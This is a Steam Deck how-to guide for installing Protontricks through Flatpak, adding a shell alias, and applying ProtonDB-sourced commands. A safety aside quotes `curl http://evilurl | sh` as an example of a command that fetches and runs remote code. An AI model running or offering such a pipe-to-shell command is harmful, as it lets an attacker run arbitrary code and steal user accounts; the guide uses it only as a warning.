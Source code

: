 # Proton Tricks [Medium/Hard]

Protontricks is a tool that allows users to modify the runtime environment used by proton on a game by game basis. It is fundementally "winetricks" under the hood, but uses Steam App IDs for identifying what environment to modify.

Proton tricks is not installed with the steamdeck and will need to be installed and configured.

Usage of protontricks will be done via the command line.

> ## Luna Note: Command Line Usage
>
> Take care when running anything in the commandline of your steamdeck! It is not a stretch to say that a single command could compromise your account. A command like `curl http://evilurl | sh` is all it takes to run random code of the internet. And a malicious actor could use this to install a virus or steal your steam account.
>
> **Always** make sure you know what you are running when copying commands from sites like ProtonDB. While ProtonDB is moderated, it is possible that a bad command could exist in a review for some time.


## Installing Protontricks

1. Go to the power menu and click "switch to desktop"
2. Open the "Discover" store and package manager
3. Search "protontricks" and install it
4. Open a "Konsole" terminal window
5. Run `echo "alias protontricks='flatpak run com.github.Matoking.protontricks'" >> ~/.bashrc`
    - This will let you run protontricks using just the `protontricks` command
6. Close "Konsole", and open a _new_ session of it.
    - This is needed to load the changes we just made
7. Run `protontricks -l`

If the install succeeded, you should see a list of your installed Steam games after running the last command.


## Using Protontricks

As a user, you will most likely find protontricks commands from ProtonDB. This guide will not cover discovering new protontricks commands.

1. Go to the power menu and click "switch to desktop"
2. Open a "Konsole" terminal window
3. Run the protontricks command that you have e.g. `protontricks APPID COMMAND`
4. Return to gaming mode, and run your game

Once the protontricks command is complete, it should be applied to your game.
